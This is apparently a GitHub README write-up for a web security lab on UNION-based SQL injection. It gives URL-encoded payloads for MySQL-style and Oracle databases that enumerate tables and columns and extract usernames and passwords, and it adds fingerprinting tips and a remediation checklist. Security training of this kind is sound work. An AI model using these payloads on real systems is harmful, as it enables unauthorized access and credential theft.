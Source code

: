 **Target lab:** SQL injection attack — listing the database contents (non-Oracle / Oracle variants)

---

## 🎯 Objective

Identify and exploit a `UNION`-based SQL injection to enumerate database schema, extract user credentials, and log in as an administrator (lab environment only).

---

## 🧭 Quick summary

1. Confirm `UNION` injection and discover number of columns & types.
2. Enumerate tables (`information_schema` for non-Oracle; `all_tables` for Oracle).
3. Enumerate columns for the target table.
4. Extract usernames & passwords.
5. Authenticate as administrator.

---

## 🧪 Proof-of-Concept payloads & steps

> Use these payloads only in authorized labs (PortSwigger, VulnHub, intentionally vulnerable VMs). Replace `TARGET`/parameters and URL-encode payloads when inserting into requests.

### 1) Confirm column count & text rendering

```sql
'+UNION+SELECT+'abc','def'--
```

* If response shows `abc` and `def`, the query has **two text-compatible columns**.

### 2) Enumerate tables

**Non-Oracle (MySQL/Postgres/MSSQL):**

```sql
'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
```

**Oracle:**

```sql
'+UNION+SELECT+table_name,+NULL+FROM+all_tables--
```

### 3) Enumerate columns (example target table names shown)

**Non-Oracle:**

```sql
'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--
```

**Oracle:**

```sql
'+UNION+SELECT+column_name,+NULL+FROM+all_tab_columns+WHERE+table_name='USERS_MYBYKQ'--
```

### 4) Extract credentials

**Non-Oracle example:**

```sql
'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--
```

**Oracle example:**

```sql
'+UNION+SELECT+username_wbtxcr,+password_paestm+FROM+users_mybykq--
```

---

## 🔎 DBMS fingerprinting tips

* `FROM dual` → Oracle.
* `version()`, `@@version` or `SELECT @@version` success → MySQL/MariaDB.
* Error messages may leak DBMS names; capture raw responses.
* Use boolean/time-based techniques if errors are suppressed.

---

## 🛡️ Remediation & secure coding checklist

* Use parameterized queries / prepared statements (no string concatenation).
* Apply strict input validation and allow-lists for controlled parameters.
* Principle of least privilege for DB accounts.
* Don’t expose DB error messages to users; log internally instead.
* Store passwords with strong salted hashing (e.g., `bcrypt`, `argon2`), never plaintext.
* Implement WAF rules to detect `UNION SELECT` patterns and metadata-table access.

---

## 🔐 Impact on CIA triad

* **Confidentiality:** Sensitive data (credentials) can be exfiltrated.
* **Integrity:** If DB user has write privileges, data can be modified.
* **Availability:** Time-based or resource-intensive injections can cause DoS.

---

## 🧾 Evidence & notes (redact for public repos)

* Capture HTTP responses showing `abc`/`def` and rows containing usernames/passwords.
* If passwords are hashed: note hash format and recommended offline cracking steps **only** if permitted by scope.

---

## ✅ Short README checklist for GitHub

* [ ] Title + lab link
* [ ] Short objective
* [ ] PoC payloads (clean)
* [ ] Minimal curl/HTTP PoC
* [ ] Findings (redacted screenshots or outputs)
* [ ] Remediation recommendations

---

## Payloads you provided (verbatim)

```sql
'+UNION+SELECT+'abc','def'+FROM+dual--

'+UNION+SELECT+table_name,+NULL+FROM+all_tables--

'+UNION+SELECT+column_name,+NULL+FROM+all_tab_columns+WHERE+table_name='USERS_MYBYKQ'--

'+UNION+SELECT+username_wbtxcr,+password_paestm+FROM+users_mybykq--

```

